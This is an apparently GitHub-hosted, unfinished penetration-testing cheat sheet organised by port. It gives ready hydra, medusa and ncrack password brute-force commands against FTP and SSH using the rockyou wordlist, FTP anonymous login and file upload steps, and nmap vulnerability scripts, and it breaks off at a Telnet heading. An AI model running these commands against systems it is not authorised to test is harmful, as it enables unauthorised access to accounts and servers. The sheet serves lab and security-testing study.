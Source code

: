 ## WORK IN PROGRESS*

All tools verified to work on Kali Linux but may not be included in the base distribution

### Port 21 - FTP
\
Bruteforce with a single username and rockyou password list (can use a list  of users as well):
```
hydra -f -V -t 1 -l <USERNAME> -P /usr/share/wordlists/rockyou.txt 192.168.2.62 -s 21 <IP_ADDRESS> ftp
```
\
Attempt an FTP anonymous login:

```
ftp <IP_ADDRESS>
USER anonymous

# Leave the password empty
PASS 

# grab any files of interest
GET <FILE>

# change the mode so you can upload binaries 
bin

# put a file on the target FTP server 
PUT <FILE>
```
\
Can also navigate to the FTP server in a web browser to easily browse the contects of the server:
```
ftp://10.10.10.180
```
\
Use nmap scripts to check for common FTP vulnerabilities:

```
nmap -sV -Pn -p 21 --script=ftp-vuln* <IP_ADDRESS>
```
\
### Port 22 - SSH
\
Bruteforce with a single username and rockyou password list (can use a list of of users as well)

```
hydra -f -V -t 1 -l <USERNAME> -P /usr/share/wordlists/rockyou.txt -s 22 <ip addr> ssh

medusa -u <USERNAME> -P /usr/share/wordlists/rockyou.txt -e ns -h <ip addr> - 22 -M ssh

ncrack -vv -p 22 --user <USERNAME> -P /usr/share/wordlists/rockyou.txt <ip addr>
```
### Port 23 - Telnet
